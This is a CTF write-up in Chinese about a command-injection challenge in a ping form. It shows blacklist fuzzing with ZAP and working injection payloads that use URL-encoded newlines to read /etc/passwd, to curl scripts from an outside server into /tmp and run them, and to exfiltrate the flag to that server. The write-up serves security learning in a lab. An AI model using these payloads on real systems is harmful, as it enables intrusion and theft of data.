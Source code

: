 # CTF: remote command execution

## Description

路由器管理台经常存在的网络 ping 测试，开发者常常会禁用大量的恶意字符串，试试看如何绕过呢？

## Solution

進入網站嘗試使用

- 輸入 `127.0.0.1` 得到 IP 存在且成功
- 輸入 `127.0.0.2` 得到 IP 失敗
- 輸入 `127.1 && cat /flag` 得到含非法字元

![alt text](image.png)

![alt text](image-1.png)

可以推測這是一個 RCE 的漏洞，但是存在一些黑名單防禦。

可以猜測底層的命令是 `ping <input IP>` 因此理論上只要繞過黑名單添加類似 `&&` 的符號就可以執行任意命令。

要破解黑名單最簡單的方法是 fuzzing，使用 ZAP 配合網路抓來的 RCE payload ([file](./fuzz-payload.txt)) 來 fuzz 黑名單。

ref: https://github.com/payloadbox/command-injection-payload-list

這裡要注意，fuzz 一定要使用滲透工具，例如 ZAP 或 Burp Suite，因為這些工具才不會自動處理特殊字元，一般工具例如 postman 會自動處理特殊字元，導致 fuzz 無效。

開啟 `http://localhost:8080/zap` 先 auto scan 目標網站 `http://converter` 抓出目標路由

接著按照以下順序操作執行 fuzzing：

1. 找到目標 post 命令，選擇 requester 複製對應 raw request
   ```
   POST http://converter/ping.php HTTP/1.1
   host: converter
   user-agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
   Accept: */*
   Accept-Language: en-US,en;q=0.5
   Content-Type: application/x-www-form-urlencoded; charset=UTF-8
   X-Requested-With: XMLHttpRequest
   Content-Length: 18
   Origin: http://converter
   Connection: keep-alive
   Referer: http://converter/
   Priority: u=0
   ```
   ```
   ip=HObQahzKClCIJvV
   ```
2. 創建新的 requester 基於上面的資料，並且把 body 改為 `ip=127.1<FUZZ>`，因為我們希望嘗試一般會成功的命令，加了甚麼符號還是會成功
3. 圈選想要 fuzz 的字串 `<FUZZ>` 後右鍵選 fuzz
   ![alt text](image-2.png)
   ![alt text](image-3.png)
4. 選擇 payloads 按下 Add，添加 strings payloads，裡面貼上 `fuzz-payload.txt` 的內容，這是網路上下載的字典。
5. 按下開始後檢查結果，看看有沒有添加特殊字元卻執行成功的結果
   ![alt text](image-4.png)

從上面步驟得到了三個成功的結果，我們列出來觀察

- `ip=127.1cat /etc/hosts`
- `ip=127.1cat /etc/passwd`
- `ip=127.1%0Acat%20/etc/passwd`

最關鍵的是知道了兩個符號沒有被擋分別是 `%0A` 和 `/`

- `%0A` 是換行符號，可以讓 shell 命令在多行執行
- `/` 是路徑分隔符號，可以填入任意 URI

至此，最簡單的做法出爐，就是利用 `%0A` 來換行，把 Flag 存到 nginx 網頁發布的靜態資源目錄。

輸入 `ip=127.1%0Acat%20/FLAG%20>%20flag` 後前往 `http://localhost/flag` 即可看到 Flag。 (另外此時可以透過時間注入確保 `cat xxx` 是否成功。)

但實務上，上面方法不可行，有以下兩個原因

- 因為出題者做了權限控制，禁止操作網頁服務的目錄。
- 因為出題者故意取名叫大寫 FLAG，所以我們在看不到目錄時，很難猜到該路徑。

接下來的想法是，創建一個外部伺服器建立 http 橋梁，在遠端透過 http 橋梁下載惡意腳本，再把 flag 用 http 橋梁送到外部伺服器。

docker-compose 加入以下設置以模擬

```
  nginx:
    image: nginx:latest
    container_name: static-server
    volumes:
      - ./ctf:/usr/share/nginx/html
    ports:
      - 9090:80
    networks:
      - my-bridge-network
```

撰寫兩個惡意腳本

- find.sh : 查找目標資料夾下檔案名稱，用來定位 flag 的路徑
- get.sh : 抓取 flag 後送出去到外部伺服器

使用以下命令(RCE)可以下載 find.sh 後存到 `/tmp` 目錄下，這個目錄要用亂試的試出來，因為不知道哪裡有被開檔案讀寫權限

`ip=127.1%0Acurl%20nginx/find.sh%20>%20/tmp/find.sh`

接著透過 `sh` 執行腳本，可以在外部伺服器的 log 中看到目標資訊

`ip=127.1%0Ash%20/tmp/find.sh`

![alt text](image-5.png)

找到目標路徑 `/FLAG`，接著下載與執行 get.sh 脚本。

- `ip=127.1%0Acurl%20nginx/get.sh%20>%20/tmp/get.sh`
- `ip=127.1%0Ash%20/tmp/get.sh`

![alt text](image-6.png)

成功在外部伺服器上的 log 讀取到 FLAG。
